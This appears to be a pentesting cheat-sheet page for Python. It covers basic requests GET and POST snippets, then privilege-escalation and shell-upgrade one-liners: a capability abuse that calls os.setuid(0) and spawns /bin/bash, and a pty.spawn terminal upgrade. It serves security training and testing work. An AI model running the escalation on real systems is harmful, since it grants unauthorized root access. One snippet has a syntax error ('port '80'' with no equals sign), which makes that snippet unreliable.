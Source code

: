 ```yaml
---
title: Python
desc: A high-level, interpreted, general-purpose programming language.
tags: [PrivEsc, Web]
alts: []
website:
render_with_liquid: false
---
```


## Requests

### HTTP GET Request (Basic)

```python
#!/usr/bin/env python3

import requests

ip = '10.0.0.1'
port = '80'
url = 'http://%s:%s' % (ip, port)

res = requests.get(url)

print(res.content)
print(res.headers)
print(res.status_code)
print(res.text)
print(res.url)
```

### HTTP GET Request (Args)

```python
#!/usr/bin/env python3

import requests

ip = '10.0.0.1'
port '80'
url = 'http://%s:%s' % (ip, port)
ua = 'Mozilla/5.0 ...'

# Args
params = {'page': '2', 'item': 'chair'}
headers = {'User-Agent': ua}
cookies = {'PHPSESSID': 'a953b5...'}
auth = requests.auth.HTTPBasicAuth('username', 'password')

r = requests.get(url, params=params, headers=headers, cookies=cookies, auth=auth)

print(r.text)
```

### HTTP GET Request (Session)

```python
#!/usr/bin/env python3

import requests

url = 'http://example.com'

session = requests.Session()
r = session.get(url)

print(r.text)
```

### HTTP POST Request (Basic)

```python
#!/usr/bin/env python3

import requests

ip = '10.0.0.1'
port = '80'
url = 'http://%s:%s/login' % (ip, port)

data = {'username': 'admin', 'password': 'admin'}

r = requests.post(url, data=data)

print(r.status_code)
print(r.text)
```

### HTTP POST Request (Args)

```python
#!/usr/bin/env python3

import requests

url = 'http://example.com/login'

data = {'username': 'admin', 'password': 'admin'}

# Args
headers = {'User-Agent': ua}
cookies = {'PHPSESSID': 'a953b5...'}

r = requests.post(url, data=data, headers=headers, cookies=cookies)
```

### HTTP POST Request (Session)

```python
#!/usr/bin/env python3

import requests

url = 'http://example.com/comment'

data = {'name': 'Mike', 'comment': 'Hello'}

session = requests.Session()

r = session.post(url, data=data)

print(r.text)
```

<br />

## Privilege Escalation

```sh
# Capability
# ex. /usr/bin/python3 = cap_setuid+ep)
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

<br />

## Upgrade to Full Functional Terminal

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```